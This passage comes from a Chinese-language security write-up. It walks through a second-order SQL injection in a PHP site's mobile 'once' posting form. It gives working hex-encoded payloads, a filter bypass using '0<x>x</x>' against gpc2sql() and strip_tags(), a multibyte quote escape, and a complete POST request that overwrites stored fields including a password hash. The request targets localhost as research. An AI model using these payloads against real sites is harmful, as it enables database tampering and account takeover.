 程序成功执行，数据库中插入记录。

![](img/20180316-4.jpg)

#### 插入数据

数据库中已经存在了记录了，那么此时我们就可以手动地传入id值，进入到更新操作。由于本次的更新操作主要是为了向数据库中插入我们预设的`pic`的值，所以此时我们需要手动地设置我们传入的id值为1.

由于我们只能以十六进制的方式进行注入。其中：
1. pic作为注入的payload，我们可以设置为`', qq=version(), email=user() where 1#`。经过十六进制编码之后为`0x272c2071713d76657273696f6e28292c20656d61696c3d757365722829207768657265203123`
2. 我们输入的password为`123456`,经过md5之后存入到数据库的是`e10adc3949ba59abbe56e057f20f883e`。那么经过十六进制编码之后为`0x6531306164633339343962613539616262653536653035376632306638383365`

我们最后需要为address传入的payload是:
```
,pic=0<x>x</x>272c2071713d76657273696f6e28292c20656d61696c3d757365722829207768657265203123,`status`=0,`password`=0<x>x</x>6531306164633339343962613539616262653536653035376632306638383365,`edate`=1526222139 #
```
同时为了逃逸出单引号，我们需要将three_cityid设置为:
```
%E9%8C%A6
```
其中的`0<x>X</x>`前面已经说明了，是为了绕过`gpc2sql()`和`strip_tags()`的过滤。通过将`three_cityid`设置为`%E9%8C%A6`就能够注释掉address中单引号，使address中的payload能够逃逸出来。

最后的payload如下：
```
URL: http://localhost/wap/index.php?c=once&a=add
POST: title=1&companyname=2&linkman=3&phone=15071111111&require=4&salary=&&edate=60&password=123456&checkcode=5902&title=1&companyname=2&linkman=3&phone=15071111111&&salary=&file=undefined&edate=60&password=123456&checkcode=5902&submit=%e5%8f%91%e5%b8%83&address=%2c%70%69%63%3d%30%3c%78%3e%78%3c%2f%78%3e%32%37%32%63%32%30%37%31%37%31%33%64%37%36%36%35%37%32%37%33%36%39%36%66%36%65%32%38%32%39%32%63%32%30%36%35%36%64%36%31%36%39%36%63%33%64%37%35%37%33%36%35%37%32%32%38%32%39%32%30%37%37%36%38%36%35%37%32%36%35%32%30%33%31%32%33%2c%60%73%74%61%74%75%73%60%3d%30%2c%60%70%61%73%73%77%6f%72%64%60%3d%30%3c%78%3e%78%3c%2f%78%3e%36%35%33%31%33%30%36%31%36%34%36%33%33%33%33%39%33%34%33%39%36%32%36%31%33%35%33%39%36%31%36%32%36%32%36%35%33%35%33%36%36%35%33%30%33%35%33%37%36%36%33%32%33%30%36%36%33%38%33%38%33%33%36%35%2c%60%65%64%61%74%65%60%3d%31%35%32%36%32%32%32%31%33%39%20%23&three_cityid=1%E9%8C%A6%5C&id=1
```

可以发现经过编码转换之后，`three_cityid`顺利地多出了一个`\`.

![](img/20180316-6.jpg)

